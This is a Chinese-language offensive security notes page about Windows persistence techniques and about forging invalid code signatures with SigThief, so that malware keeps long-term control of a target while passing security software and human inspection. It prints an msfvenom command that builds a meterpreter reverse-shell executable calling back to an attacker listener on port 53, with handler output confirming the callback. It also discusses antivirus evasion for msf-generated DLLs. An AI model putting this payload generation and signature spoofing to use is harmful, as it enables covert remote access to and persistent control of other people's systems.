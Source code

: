 一开始整理持久化技术的时候总共列了20种左右，但实践中发现很多持久化技术并是不通用的，例如针对特定场景，特定配置，特定应用的权限维持；甚至还有些是“被动”持久化，例如快捷方式的替换，排除利用快捷方式漏洞利用这条路，如果目标不去点是不会触发的。因此将那些局限性较大的持久化技术删掉以精简篇幅（减少工作量），最后将持久化技术精简到了以上10种，相对来说比较通用。

整理的过程中也发现一个Ring3中无奈的点：用户层的持久化如果想做到隐蔽性强且绕过杀软的行为检测，一定要借助Windows自带的功能（白利用），如果这些功能或模块在特殊环境中被关闭、卸载或无法正常启动就会很尴尬。因此多准备几种方法总还是很有用的。

由于时间关系，部分需要单独制作的DLL使用了msf直接生成的DLL进行测试，但免杀效果堪忧。后续制作CS插件的时候还需要再完成这些DLL并对其做一些免杀处理。

参考文章：

    https://xz.aliyun.com/t/8095
    
        

* * *

##### 7.1.2.1 对抗权限长期把控-伪造无效签名（dayu-Nineteenth Day）

专注APT攻击与防御

    https://micropoor.blogspot.com/ 
    
        

Github：`https://github.com/secretsquirrel/SigThief`

**简介：**

在实战中，尤其是需要长期控制的目标，除免杀对抗安全软件以外，还需考虑人为无 意查看恶意文件，如数字签名是否拥有。而许多安全软件，又仅仅验证是否有签名，而非验 证签名是否有效。那么针对重要的目标，需要提前做多重对抗准备。

**原始payload：**

    1 [root@John html]# msfvenom ‐p windows/x64/meterpreter/reverse_tcp LHOS T=192.168.1.104 LPORT=53 ‐f exe >tmp_rev53x_64.exe 
    2 [‐] No platform was selected, choosing Msf::Module::Platform::Windows from the payload 
    3 [‐] No arch selected, selecting arch: x64 from the payload 
    4 No encoder or badchars specified, outputting raw payload 
    5 Payload size: 510 bytes 6 Final size of exe file: 7168 bytes
    
        

无签名：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201005101749130.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
开启安全警告验证：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201005101806927.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
成功回连：

    1 msf exploit(multi/handler) > show options 
    2
    3 Module options (exploit/multi/handler): 
    4
    5 Name Current Setting Required Description 
    6 ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 
    7
    8
    9 Payload options (windows/x64/meterpreter/reverse_tcp): 
    10
    11 Name Current Setting Required Description 
    12 ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 
    13 EXITFUNC process yes Exit technique (Accepted: '', seh, thread, proce ss, none) 
    14 LHOST 192.168.1.104 yes The listen address (an interface may be speci fied) 
    15 LPORT 53 yes The listen port 
    16
    17
    18 Exploit target: 
    19
    20 Id Name 
    21 ‐‐ ‐‐‐‐ 
    22 0 Wildcard Target 
    23